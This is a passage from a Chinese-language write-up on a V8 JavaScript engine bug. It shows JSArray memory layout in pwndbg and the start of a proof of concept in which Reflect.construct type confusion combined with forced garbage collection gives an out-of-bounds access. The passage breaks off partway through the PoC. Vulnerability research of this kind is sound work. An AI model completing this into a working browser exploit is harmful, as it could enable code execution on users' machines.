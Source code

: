   
  
  
这里是JSArray对象的结构  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HpNY8Y8SDFbRWkQbTlo6n7EsF9PUqz0lyciarXblkInUq1w1OBduM5fKbhSEia7HRwHwSLvdFnZWMg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
  
  
示例代码  
  
  

```
var arr = [1.1,2.2,3.3];
%DebugPrint(arr);
```

  
  
输出  
  

```
pwndbg> job 0x9f20004c96d
0x9f20004c96d: [JSArray]
-map:0x09f20018ece5 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
-prototype:0x09f20018e705 <JSArray[0]>
-elements:0x09f20004c94d <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]
-length:3
-properties:0x09f200000219 <FixedArray[0]>
-All own properties (excluding elements): {
0x9f200000e0d: [String] in ReadOnlySpace:#length: 0x09f200144a3d <AccessorInfo name= 0x09f200000e0d <String[6]: #length>, data= 0x09f200000251 <undefined>> (const accessor descriptor), location: descriptor
 }
-elements:0x09f20004c94d <FixedDoubleArray[3]> {
0:1.1
1:2.2
2:3.3
 }
pwndbg> x/16wx 0x9f20004c96d-1
0x9f20004c96c:0x0018ece5  0x00000219  0x0004c94d  0x00000006
0x9f20004c97c:0x00000000  0x00000000  0x00000000  0x00000000
0x9f20004c98c:0x00000000  0x00000000  0x00000000  0x00000000
0x9f20004c99c:0x00000000  0x00000000  0x00000000  0x00000000
```

  
  
  
因为使用Reflect.construct(Derived, [], Base);的时候无法创建in-object对象，所以这里混淆后的Length就只能为0，但是别忘了还有gc，我们可以主动触发gc，这样会使用到一些地址上残留的值，这样就会有一个oob了。  
  
  
因此下面是一个poc：  
  
  

```
var x = Array;

class Base {}

class Derived extends Base {
constructor() {
    x = new.target;
super();
  }
}

function construct() {
var r = Reflect.construct(Derived, [], x);
```